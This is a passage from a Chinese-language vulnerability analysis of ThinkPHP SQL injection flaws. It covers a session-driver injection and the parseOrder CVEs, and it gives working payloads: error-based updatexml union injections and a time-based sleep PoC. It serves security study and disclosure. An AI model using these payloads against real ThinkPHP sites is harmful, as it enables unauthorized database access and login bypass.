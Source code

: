 `username=)%20union%20select%20updatexml(1,concat(1,user(),1),1)%23`

NOT LIKE/LIKE表达式：

`username[0]=not+like&username\[1\]\[0\]=%%&username\[1\]\[1\]=233&username\[2\]=)%20union%20select%20updatexml(1,concat(1,user(),1),1)%23`

IN表达式：

`username[0,updatexml(1,concat(1,user(),1),1)]=1231`

### 5.ThinkPHP/Library/Think/Session/Driver/Db.class.php::write未过滤session导致Sql注入

#### - 利用条件

版本范围：ThinkPHP (0, 3.2.3]

#### - 漏洞原理和分析

tp框架的session如果是写入数据库中，有调用封装好的session驱动完成，驱动为`ThinkPHP/Library/Think/Session/Driver`，该漏洞涉及到设置session的时候对session值没有过滤，可通过闭环sql语句造成任意登录或直接造成sql注入。流程如下：

ThinkPHP内核处理session的handler没有对sessionData过滤：ThinkPHP/Library/Think/Session/Driver/Db.class.php::session()-->ThinkPHP/Library/Think/Session/Driver/Db.class.php::write()

详细见[ThinkPHP一处过滤不当造成SQL注入漏洞](https://bugs.leavesongs.com/php/thinkphp一处过滤不当造成sql注入漏洞/)

#### -漏洞复现

- demo构造

  ```php
  public function login(){
          session("admin", I('post.username'));
      //username作为session值
          $this->show('登录成功','utf-8');
      }
  ```

- PoC

  闭合

  `username=a'|sleep(3))%23` 

### 6.thinkphp/library/think/db/Builder.php::parseOrder未过滤调用parseKey

> CVE-2018-18546(TP3)、CVE-2018-16385（TP5）、**CVE-2021-44350(TP5绕过)**

#### - 利用条件

1. 版本范围：ThinkPHP <= 3.2.3,  5.1.16<=ThinkPHP <5.1.23（CVE-2018-16385），5.0.0<=ThinkPHP<=5.0.16 + 5.1.0<=ThinkPHP<=5.1.8（CVE-2021-44350）
2. php版本限制：php7.4以下（不包含）

[从7.4以后，只能使用第一种形式$value\[0\]获取字符串偏移了，第二种方法$value{0}被弃用。](http://www.zhishibo.com/articles/203530.html)
